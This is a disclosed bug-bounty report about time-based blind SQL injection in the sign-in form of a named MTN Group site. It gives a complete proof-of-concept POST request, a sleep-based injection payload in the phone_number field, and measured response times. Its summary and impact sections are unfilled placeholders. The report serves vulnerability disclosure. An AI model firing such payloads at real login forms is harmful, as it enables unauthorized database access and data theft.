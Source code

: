 # SQL injection [futexpert.mtngbissau.com]

## Report Details
- **Report ID**: 924855
- **URL**: https://hackerone.com/reports/924855
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-07-15T21:42:56.696Z
- **Disclosed**: 2021-09-09T11:40:30.512Z

## Reporter
- **Username**: pisarenko
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
[add summary of the vulnerability]

## Steps To Reproduce:
[add details for how we can reproduce the issue]

  1. Poc Request

`POST /signin/ HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: https://futexpert.mtngbissau.com/
Cookie: PHPSESSID=sn56alvthfp0l0vvoku34jd2i4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 82
Host: futexpert.mtngbissau.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Connection: Keep-alive`

`phone_number=0'XOR(if(now()=sysdate()%2Csleep(10)%2C0))XOR'Z&pin=1&submit=Continuar`

Tests performed:
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.438
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.394
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.391
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.396
0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.802
0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.436
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.435

## Impact

sql

## Attachments
No attachments
